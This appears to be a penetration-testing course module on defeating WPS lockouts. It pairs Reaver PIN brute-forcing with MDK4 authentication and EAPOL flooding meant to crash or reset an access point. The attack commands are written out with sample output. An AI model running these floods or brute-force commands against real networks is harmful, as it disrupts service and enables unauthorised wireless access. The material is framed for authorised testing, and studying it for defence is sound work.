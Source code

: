 
<h1>Crashing a Target AP with MDK4</h1>
<hr/>
<p>During our efforts of retrieving the PIN and WPA-PSK, we are likely to encounter an access point locking at some point. In this section, we will demonstrate how flooding and crashing the AP can be used as a potential bypass.</p>
<p>There are a few different kinds of WPS locks, one of which is a delay period that occurs after too many incorrect guesses. As we demonstrated in an earlier section, we can bypass this using our advanced command, specifying the sleep period and time between attempts:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo reaver -l 100 -r 3:45 -i wlan0mon -b 60:38:E0:XX:XX:XX -c 11
</code></pre>
<p>The second kind of WPS lock is one that requires the AP to be reset, either through a power cycle or some other means, after too many incorrect PIN attempts. This can dissuade us as attackers from continuing WPS PIN retrieval techniques. However, <code>Authentication Denial-of-Service</code> and <code>EAPOL Start and Logoff</code> packet injection flooding attacks can grant us this access point reset. In some cases, this will remove the WPS lock. It is worth noting that not all access points are vulnerable to these two aggressive techniques, and <code>these techniques are truly a last resort</code>. In some instances, the access point will crash, while the WPS lock remains enabled.</p>
<h4>Bypassing the WPS Reset Lock through MDK4</h4>
<p>To begin this technique, we will need three terminals. In the first terminal, we will initiate the online bruteforcing attempt against the PIN.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo reaver -l 100 -r 3:45 -i wlan0mon -b 60:38:E0:XX:XX:XX -c 11
</code></pre>
<p>In the second terminal, we can monitor our <code>WPS Locked</code> status with <code>airodump-ng</code> and the <code>--wps</code> filter. We also specify our BSSID and channel, to exclude any additional access points from our list.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng --wps --bssid 60:38:E0:XX:XX:XX -c 11 wlan0mon

CH 11 ][ Elapsed: 0 s ][ 2023-01-02 23:29 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 60:38:E0:XX:XX:XX  -52   0       14        0    0  11   65   WPA2 CCMP   PSK Locked  HTB-Wireless    
</code></pre>
<p>Suppose our access point displays a locked status. This will halt all PIN attempts occurring in the first terminal. Luckily, <a href="https://github.com/aircrack-ng/mdk4">MDK4</a> includes functionality in its attack modules for both Authentication Denial-of-Service and EAPOL Start and Logoff Packet Injection flooding. In our third terminal, we can employ the following command to test for Authentication Denial-of-Service flooding. We specify attack module <code>a</code> for <code>Authentication Denial-of-Service</code>, and our access point's MAC address with <code>-a</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo mdk4 wlan0mon a -a 60:38:E0:XX:XX:XX

Connecting Client BC:AC:DC:23:D1:31 to target AP 60:38:E0:XX:XX:XX
Packets sent:      1 - Speed:    1 packets/sec
Connecting Client 84:24:10:39:FD:D1 to target AP 60:38:E0:XX:XX:XX
Packets sent:   1618 - Speed: 1617 packets/sec
Connecting Client 8D:D3:44:A8:23:6B to target AP 60:38:E0:XX:XX:XX
</code></pre>
<p><code>Authentication Denial-Of-Service</code> attacks will continue to spoof MAC addresses to authenticate to the network. This floods the access point's client list, and in many cases causes the access point to crash, thus resetting it. This can enable us to redeem an unlocked WPS status.</p>
<p>Alternatively, we could attempt this same attack with the <code>Intelligent Test</code> on the access point. The <a href="https://manpages.debian.org/bookworm/mdk4/mdk4.2.en.html#i~2">Intelligent Test</a> connects clients against the AP and reinjects sniffed data to keep them alive.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo mdk4 wlan0mon a -i 60:38:E0:XX:XX:XX
</code></pre>
<p>If our access point is still displaying a locked status in our second terminal, we could then attempt an <code>EAPOL Start and Logoff Packet Injection</code> attack.</p>
<p>In the third terminal, we have our choice of <code>EAPOL Start</code> or <code>EAPOL Logoff</code> messages. To use <code>EAPOL Start</code> messages, we run the following command.</p>
<pre><code class="language-shell-session">[!bash!]$ mdk4 wlan0mon e -t 60:38:E0:XX:XX:XX
</code></pre>
<p>To use <code>EAPOL Logoff</code> messages to kick clients off the network, we can employ the command seen below.</p>
<pre><code class="language-shell-session">[!bash!]$ mdk4 wlan0mon e -t 60:38:E0:XX:XX:XX -l
</code></pre>
<p>Alternatively, we could leave our <code>EAPOL Start</code> message MDK4 command running in our third terminal and begin the <code>EAPOL Logoff</code> messages in a fourth terminal. We can also utilize a deauthentication attack to kick clients.</p>
<p>By this point, our target access point should have crashed or reset if it is vulnerable to either of these DOS attacks. We can check on this in our second terminal through the <code>airodump-ng</code> output.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng --wps --bssid 60:38:E0:XX:XX:XX -c 11 wlan0mon

CH 11 ][ Elapsed: 0 s ][ 2023-01-02 23:29 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 60:38:E0:XX:XX:XX  -52   0       14        0    0  11   65   WPA2 CCMP   PSK Label  HTB-Wireless    
</code></pre>
<p>If all goes well, and our access point is reset, our Reaver session in the first terminal should be able to continue. This whole process could be scripted to take away from the need to manually crash the access point every time a lock is incurred. The general idea stays the same. Although this method is proven to cause resets among access points, it creates a noticeable amount of undesired detection for a penetration tester. If we need to keep a low profile, these Denial-of-Service methods would not be a good way to go.</p>
<div class="alert alert-primary fade show" role="alert">
<i class="mdi mdi-information-outline mr-2"></i> Crashing a target access point (AP) with MDK4 is a method that only works on very old routers. Recent routers are not vulnerable to this type of Denial-of-Service (DoS) attack.
</div>
<hr/>
<h2>Closing Thoughts</h2>
<p>The importance of securing WPS devices cannot be overstated. As technology continues to evolve, so do the methods and tools used by cybercriminals to exploit vulnerabilities. WPS, being an older protocol, is particularly susceptible to attacks and should be disabled to enhance security. By understanding the risks associated with WPS and implementing robust security measures, such as using strong passwords, regularly updating firmware, and employing advanced encryption methods, we can significantly reduce the likelihood of unauthorized access and protect our wireless networks. Whether you're a seasoned cybersecurity professional or just beginning your journey, staying informed and vigilant is key to safeguarding your digital environment. Remember, a proactive approach to security is always more effective than a reactive one.</p>
